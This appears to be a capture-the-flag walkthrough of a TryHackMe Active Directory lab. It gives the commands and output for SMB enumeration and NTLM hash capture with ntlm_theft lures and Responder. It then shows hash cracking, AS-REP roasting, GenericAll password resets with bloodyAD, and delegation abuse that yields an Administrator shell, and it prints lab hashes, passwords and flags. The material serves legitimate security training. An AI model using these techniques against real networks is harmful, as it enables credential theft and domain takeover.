

# PORT SCAN
---


| PORT      | SERVICE       |
| :-------- | :------------ |
| 53/tcp    | domain        |
| 88/tcp    | kerberos-sec  |
| 135/tcp   | msrpc         |
| 139/tcp   | netbios-ssn   |
| 445/tcp   | microsoft-ds  |
| 464/tcp   | kpasswd5      |
| 593/tcp   | ncacn_http    |
| 636/tcp   | tcpwrapped    |
| 3268/tcp  | ldap          |
| 3389/tcp  | ms-wbt-server |
| 5985/tcp  | http          |
| 7680/tcp  | pando-pub     |
| 49671/tcp | msrpc         |
| 49673/tcp | msrpc         |


# RECONNAISSANCE
---

First of all, we need to add the domain and domain controller to `/etc/hosts`:

```bash
echo '10.10.79.33 haystack.thm.corp thm.corp' | sudo tee -a /etc/hosts
```

Now, let's begin some basic enumeration, we don't have credentials yet so we need to perform anonymous enumeration, let's begin with SMB:


```bash
smbclient -L //10.10.79.33 -N
Can't load /etc/samba/smb.conf - run testparm to debug it

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	Data            Disk
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share
	SYSVOL          Disk      Logon server share
```

As seen, we can find a `Data` share on here, let's check if we can read it:

```bash
smbclient //10.10.79.33/Data

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 19 08:40:57 2023
  ..                                  D        0  Wed Jul 19 08:40:57 2023
  onboarding                          D        0  Wed Jun 25 20:25:09 2025

		7863807 blocks of size 4096. 3001378 blocks available
smb: \> cd onboarding
smb: \onboarding\> ls
  .                                   D        0  Wed Jun 25 20:25:09 2025
  ..                                  D        0  Wed Jun 25 20:25:09 2025
  01kez13n.wf0.pdf                    A  4700896  Mon Jul 17 08:11:53 2023
  bhmwk0uv.tco.pdf                    A  3032659  Mon Jul 17 08:12:09 2023
  t0jvvqfe.24s.txt                    A      521  Mon Aug 21 18:21:59 2023

		7863807 blocks of size 4096. 3001330 blocks available
smb: \onboarding\>
```

We got some files on here, let's get them all and check them:


On the pdf, we can find this, there seems to be some sort of initial password and we get a name, since we got a name, we can try kerbrute with `username-anarchy` to check if the user exists:

Username-Anarchy: https://github.com/urbanadventurer/username-anarchy

```bash
./username-anarchy -i user.txt > usernames.txt
```

Now let's try kerbrute to check if we got any luck:

```bash
kerbrute userenum --dc haystack.thm.corp -d thm.corp usernames.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 06/25/25 - Ronnie Flathers @ropnop

2025/06/25 20:35:41 >  Using KDC(s):
2025/06/25 20:35:41 >  	haystack.thm.corp:88

2025/06/25 20:35:42 >  Done! Tested 14 usernames (0 valid) in 0.361 seconds
```

Unlucky, no user with this username exists.

This is when we need to go back to `SMB`, if we look closely, something weird is happening, files are changing constantly:

```
smb: \onboarding\> ls
  .                                   D        0  Wed Jun 25 20:37:10 2025
  ..                                  D        0  Wed Jun 25 20:37:10 2025
  0vdq3hur.udn.txt                    A      521  Mon Aug 21 18:21:59 2023
  obuhtgq1.x4z.pdf                    A  4700896  Mon Jul 17 08:11:53 2023
  xoxxk3v3.3n0.pdf                    A  3032659  Mon Jul 17 08:12:09 2023

		7863807 blocks of size 4096. 3002396 blocks available
smb: \onboarding\> ls
  .                                   D        0  Wed Jun 25 20:37:40 2025
  ..                                  D        0  Wed Jun 25 20:37:40 2025
  4yeo154v.gpv.txt                    A      521  Mon Aug 21 18:21:59 2023
  gmtbxfyj.bww.pdf                    A  3032659  Mon Jul 17 08:12:09 2023
  vccsfaak.run.pdf                    A  4700896  Mon Jul 17 08:11:53 2023
```

This means there is an automatic process that changes the files once in a while, we can exploit this by using a tool using `ntlm_theft`, this tool will basically phish the credentials from the user by uploading a file that forces the user to authenticate, since we are in the same network than the domain (`thanks to the vpn`), we can use responder to capture the credentials and attempt to crack the hash. let's proceed with exploitation.


# EXPLOITATION
---

First of all, let's grab the tool:

NTLM_THEFT: https://github.com/Greenwolf/ntlm_theft

Now, we can use it in the following way:

```python
python3 ntlm_theft.py -g all -s VPN_IP -f phish
Created: phish/phish.scf (BROWSE TO FOLDER)
Created: phish/phish-(url).url (BROWSE TO FOLDER)
Created: phish/phish-(icon).url (BROWSE TO FOLDER)
Created: phish/phish.lnk (BROWSE TO FOLDER)
Created: phish/phish.rtf (OPEN)
Created: phish/phish-(stylesheet).xml (OPEN)
Created: phish/phish-(fulldocx).xml (OPEN)
Created: phish/phish.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: phish/phish-(includepicture).docx (OPEN)
Created: phish/phish-(remotetemplate).docx (OPEN)
Created: phish/phish-(frameset).docx (OPEN)
Created: phish/phish-(externalcell).xlsx (OPEN)
Created: phish/phish.wax (OPEN)
Created: phish/phish.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: phish/phish.asx (OPEN)
Created: phish/phish.jnlp (OPEN)
Created: phish/phish.application (DOWNLOAD AND OPEN)
Created: phish/phish.pdf (OPEN AND ALLOW)
Created: phish/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: phish/Autorun.inf (BROWSE TO FOLDER)
Created: phish/desktop.ini (BROWSE TO FOLDER)
Generation Complete.
```

Once we got our file, we need to start responder and upload the `.lnk` file:

```bash
sudo responder -I tun0
```

```bash
smb: \onboarding\> 
```

Now we just need to wait until the process hits up again:


As seen, we capture the hash:

```
AUTOMATE::THM:b4ed0bd6fd5262ea:9594129472C981F52BC92C632B13277F:01010000000000008008E880F5E5DB0143F551661033980800000000020008003400490046004F0001001E00570049004E002D00580059004B003900410055004C00380056003000480004003400570049004E002D00580059004B003900410055004C0038005600300048002E003400490046004F002E004C004F00430041004C00030014003400490046004F002E004C004F00430041004C00050014003400490046004F002E004C004F00430041004C00070008008008E880F5E5DB0106000400020000000800300030000000000000000100000000200000D0A153F52AD42B04A9F4A6B433AF9CFC6A02B214717C5DD98A8477F5DC19D8940A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310034002E00320031002E00320038000000000000000000
```

We can crack it with hashcat:

```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt

AUTOMATE::THM:b4ed0bd6fd5262ea:9594129472c981f52bc92c632b13277f:01010000000000008008e880f5e5db0143f551661033980800000000020008003400490046004f0001001e00570049004e002d00580059004b003900410055004c00380056003000480004003400570049004e002d00580059004b003900410055004c0038005600300048002e003400490046004f002e004c004f00430041004c00030014003400490046004f002e004c004f00430041004c00050014003400490046004f002e004c004f00430041004c00070008008008e880f5e5db0106000400020000000800300030000000000000000100000000200000d0a153f52ad42b04a9f4a6b433af9cfc6a02b214717c5dd98a8477f5dc19d8940a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310034002e00320031002e00320038000000000000000000:Passw0rd1
```

Got our credentials:

```
AUTOMATE:Passw0rd1
```

We can proceed to go into `evil-winrm`, before we do that, let's upload the data to bloodhound as always:

```python
bloodhound-python -d thm.corp -u 'AUTOMATE' -p Passw0rd1'' -ns 10.10.79.33 -c All --zip
```

As always, if you already ingested data, you can clean up all data on `neo4j` using:

```cypher
MATCH (n)
DETACH DELETE n
```

Now, let's check up the data on bloodhound:


If we search for `AS_REP` roastable users, we can find three, `TABATHA_BRITT` is a pretty interesting users due to its relations:


We can get to a user named `DARLA_WINTERS`, interesting part about this user is:


DARLA is allowed to delegate, based on bloodhound's info on this:


Nice, we already goth our attack path:


Let's proceed to privesc.


# PRIVILEGE ESCALATION
---





Nice, now that we already know the attack path, let's reproduce it, first of all, we need to `asrep-roast` Tabatha to get the hash and crack it, we can use `GetNPUsers.py` from impacket for this:

```python
python3 GetNPUsers.py -request -no-pass thm.corp/TABATHA_BRITT
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for TABATHA_BRITT
$krb5asrep$23$TABATHA_BRITT@THM.CORP:2bf1fbd974296d2703e92fd46bb5f93d$31026abc180559756803688842ec63cafd944fa444d4b66479651ac1bb9351bf0282d392d5247562b28d30ef58d9f8d0928d4e1a545bb10ba743083097c531c6e51b3b2376f0b09d682eb4d36adb0883d91fefa11bfbea464d471d5b3d213c9d595554c1dc9b4731830bd0d4ffd23a423e7553015a17d9da9a12597998b3e5a42c9fee514c3f96222bf978735d37543358c74d77dd36aaa2ac846fd37b937d417d3e846ec734ca0b0a7c3924eb21a3a0502f5b98ca7739e0d778106ca1d00fa205b665f2fccb2523efc9f652d83840b8a238dd84fea1c12ef7cda5284fff4ea8b3e41795
```

We got our hash, let's crack it:

```
hashcat -m 18200 asrep_hash.txt /usr/share/wordlists/rockyou.txt

$krb5asrep$23$TABATHA_BRITT@THM.CORP:2bf1fbd974296d2703e92fd46bb5f93d$31026abc180559756803688842ec63cafd944fa444d4b66479651ac1bb9351bf0282d392d5247562b28d30ef58d9f8d0928d4e1a545bb10ba743083097c531c6e51b3b2376f0b09d682eb4d36adb0883d91fefa11bfbea464d471d5b3d213c9d595554c1dc9b4731830bd0d4ffd23a423e7553015a17d9da9a12597998b3e5a42c9fee514c3f96222bf978735d37543358c74d77dd36aaa2ac846fd37b937d417d3e846ec734ca0b0a7c3924eb21a3a0502f5b98ca7739e0d778106ca1d00fa205b665f2fccb2523efc9f652d83840b8a238dd84fea1c12ef7cda5284fff4ea8b3e41795:marlboro(1985)
```

Nice, got credentials, next step on the diagram is to exploit the `GenericAll` on Shawna, let's do it, we can use `net rpc` or `bloodyAD`:

```python
bloodyAD --host "10.10.79.33" -d "thm.corp" -u "TABATHA_BRITT" -p "marlboro(1985)" set password "SHAWNA_BRAY" 'P@ssw0rd123!'

[+] Password changed successfully!
```

> If you're new to AD, check this article on `GenericAll` permission abuse:

Article: https://www.hackingarticles.in/genericall-active-directory-abuse/

Now that we've set a new password for Shawna, we can do the same for Cruz:

```python
bloodyAD --host "10.10.79.33" -d "thm.corp" -u "SHAWNA_BRAY" -p 'P@ssw0rd123!' set password "CRUZ_HALL" 'Passw0rd1234!'

[+] Password changed successfully!
```

Nice, we need to change the password for `DARLA` too:

```python
bloodyAD --host "10.10.79.33" -d "thm.corp" -u "CRUZ_HALL" -p 'Passw0rd1234!' set password "DARLA_WINTERS" 'Passw0rd12345!'

[+] Password changed successfully!
```

We're on the last step now, we need to delegate finally, for this, we can use `getST.py`, we will request the TGT as administrator:

```python
getST.py -spn "cifs/haystack.thm.corp" -impersonate "Administrator" 'thm.corp/DARLA_WINTERS:Passw0rd12345!'

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_haystack.thm.corp@THM.CORP.ccache
```

Nice, we got the `.ccache` file, we need to export it to the `KRB5CCNAME` variable and use `wmiexec.py` to get a shell as administrator:

```python
export KRB5CCNAME=Administrator@cifs_haystack.thm.corp@THM.CORP.ccache

wmiexec.py -k -no-pass Administrator@haystack.thm.corp
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```


We got our shell, let's get both flags and end the CTF:

```PYTHON
C:\>type C:\Users\automate\Desktop\user.txt
THM{AUTOMATION_WILL_REPLACE_US}

C:\>type C:\Users\Administrator\Desktop\root.txt
THM{RE_RE_RE_SET_AND_DELEGATE}
```


